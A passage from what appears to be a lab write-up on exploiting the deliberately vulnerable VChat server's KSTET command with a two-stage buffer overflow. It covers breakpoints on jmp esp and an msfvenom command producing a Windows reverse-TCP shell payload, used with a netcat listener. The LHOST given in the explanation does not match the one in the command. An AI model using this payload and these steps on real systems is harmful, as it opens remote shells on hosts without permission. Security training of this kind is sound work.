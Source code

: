 	https://github.com/DaintyJet/VChat_KSTET_Multi/assets/60448620/88e9ea66-42f0-42b4-ad1b-00e8da714aba

	1. Set a breakpoint at the `jmp esp` instruction.

		<img src="Images/I33.png" width=800>

	2. Launch the [exploit5.py](./SourceCode/exploit5.py) attack. Once you have stepped through the `jmp esp` and the short `jmp` you should see the following in your disassembler.

		<img src="Images/I34.png" width=800>

	3. Set a breakpoint on the `TEST EAX,EAX` instruction, and click run. Once you hit this click run again. Once you are satisfied this program is working correctly, as the EDI register should be incrementing; we can stop since there is no guarantee our Socket Handle will be a reasonably low number.

		<img src="Images/I35.png" width=800>

2. Generate the second stage reverse shell code using ```msfvenom``` program, and create an exploit script as shown in [exploit6.py](./SourceCode/exploit6.py).

	```
	$ msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=8080 EXITFUNC=thread -f python -v SHELL -b '\x00x\0a\x0d'
	```
	* `-p `: Payload we are generating shellcode for.
    	* `windows/shell_reverse_tcp`: Reverse TCP payload for Windows.
    	* `LHOST=10.0.2.7`: The remote listening host's IP, in this case our Kali machine's IP 10.0.2.7.
    	* `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080.
    	* `EXITFUNC=thread`: Create a thread to run the payload.
  	* `-f`: The output format.
    	* `python`: Format for use in python scripts.
  	* `-v`: Specify a custom variable name.
    	* `SHELL`: Shell Variable name.
  	* `-b`: Specifies bad chars and byte values. This is given in the byte values.
      	* `\x00x\0a\x0d`: Null char, carriage return, and newline.
3. The [exploit6.py](./SourceCode/exploit6.py) script first sends the Stage-1 exploit as is done in the [exploit5.py](./SourceCode/exploit5.py) script, then it waits a few seconds and sends the second stage of the exploit which will attempt to reach out to our *Kali Linux* machine on port 8080. To add some resiliency to inaccurate jumps, we pad the buffer the `recv(...)` call writes to, which is 1024 bytes with `\x90` the NOP instruction, by adding them to the start of the second stage.

	<img src="Images/I36.png" width=800>

	* Sometimes, this took a few times to work.

*Note*: Be sure to run the [netcat](https://linux.die.net/man/1/nc) listener on our Kali machine for port 8080 while running [exploit6.py](./SourceCode/exploit6.py)!

```
$ nc -l -v -p 8080
```
* `nc`: The netcat command.
* `-l`: Set netcat to listen for connections.
* `v`: Verbose output.
* `p`: Set to listen on a port, in this case port 8080.
